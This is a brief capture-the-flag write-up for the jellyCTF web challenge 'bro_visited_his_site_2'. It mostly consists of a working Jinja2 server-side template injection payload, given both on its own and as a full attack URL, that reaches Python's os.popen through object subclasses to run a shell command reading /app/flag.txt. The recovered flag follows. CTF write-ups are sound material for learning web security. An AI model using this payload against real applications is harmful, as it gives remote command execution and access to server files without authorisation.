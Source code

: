 # bro_visited_his_site_2
Point count: 100pts

Difficulty: easy

Provided files: N/A (same as first version)

Url: https://bro-visited-his-site.jellyc.tf/

Description: ok, but can you get /app/flag.txt
# 

This is exactly the same vulnerability as the first edition of this challenge, please read that before continuing here.

Using the same payload as the last challenge, we can just modify it to read /app/flag.txt: `{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /app/flag.txt").read()}}{%endif%}{% endfor %}`

Once done, we are presented with:

` jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}pilled jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}maxxer`

And there is our flag!

Final flag: `jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}`

Final payload: `https://bro-visited-his-site.jellyc.tf/response?word={% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /app/flag.txt").read()}}{%endif%}{% endfor %}`

